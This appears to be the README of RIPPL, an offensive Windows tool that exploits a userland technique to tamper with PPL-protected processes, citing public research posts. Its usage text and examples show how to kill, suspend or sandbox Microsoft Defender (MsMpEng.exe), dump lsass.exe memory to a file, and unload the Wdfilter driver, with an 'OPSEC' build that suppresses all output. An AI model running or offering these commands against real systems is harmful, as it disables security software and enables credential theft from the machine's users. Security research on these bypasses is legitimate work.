

# RIPPL
### Manipulating PPL protected processes without using a driver



This tool implements a __userland__ exploit to manipulate Windows PPL protected processes. The technique was initially discussed by James Forshaw (a.k.a. [@tiraniddo](https://twitter.com/tiraniddo)) and Clément Labro (a.k.a. [@itm4n](https://twitter.com/itm4n)) in the following blogposts. 

- __Blog post from James Forshaw__: [Windows Exploitation Tricks](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- __Blog post from Clément Labro part #1__: [Do You Really Know About LSA Protection (RunAsPPL)?](https://itm4n.github.io/lsass-runasppl/)
- __Blog post from Clément Labro part #2__: [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland/)


## Usage

### Warning: the safe version of the binary __NEVER__ outputs anything, as all the strings and print function are stripped away using conditional compilation macros.
Simply run the executable without any argument and you will get a detailed help/usage (only valid for binaries compiled without defining the `OPSEC` macro)

```console
c:\Temp>.\rippl.exe
  _____  _____ _____  _____  _
 |  __ \|_   _|  __ \|  __ \| |
 | |__) | | | | |__) | |__) | |      version 0.1
 |  _  /  | | |  ___/|  ___/| |      by @last0x00
 | | \ \ _| |_| |    | |    | |____  forked by itm4n's PPLDump
 |_|  \_\_____|_|    |_|    |______|

Description:
  Manipulate Protected Process Light (PPL) processes with a *userland* exploit

Usage:
  rippl.exe (-D|-K|-S|-R|-L|-X|-W|-Z|-T|-U) [-v] [-d] [-f] (PROC_NAME|PID) [DUMP_FILE|DRIVER_NAME]
  () -> mandatory arguments
  [] -> optional arguments

Operation modes (choose ONLY one):
  -D -> Dump the given process
  -K -> Kill the given process
  -S -> Suspend the given process
  -R -> Resume the previously suspended process
  -L -> Leak a PROCESS_ALL_ACCESS handle to the given process (not yet implemented)
  -X -> Kill the given process by assigning it to a job object and terminating the object
  -W -> Freeze the process by assigning it to a job object and severely constraining its CPU resources
  -Z -> Kill the given process by injecting a thread into it which calls exit(0)
  -T -> Sandbox the process by disabling all of its token's privileges and lowering integrity to untrusted
  -U -> Unload the provided driver

Arguments:
  PROC_NAME   -> The name of the process to interact with
  PID         -> The ID of the process to interact with
  DUMP_FILE   -> The path of the output dump file - valid ONLY with the -D option
  DRIVER_NAME -> The name of the driver to unload - valid ONLY with the -U option

Options:
  -d -> (Debug) Enable debug mode
  -f -> (Force) Bypass DefineDosDevice error check

Examples:
  rippl.exe -K MsMpEng.exe
  rippl.exe -S MsMpEng.exe
  rippl.exe -R MsMpEng.exe
  rippl.exe -D -f lsass.exe lsass.dmp
  rippl.exe -D -v -f 720 out.dmp
  rippl.exe -U Wdfilter
```
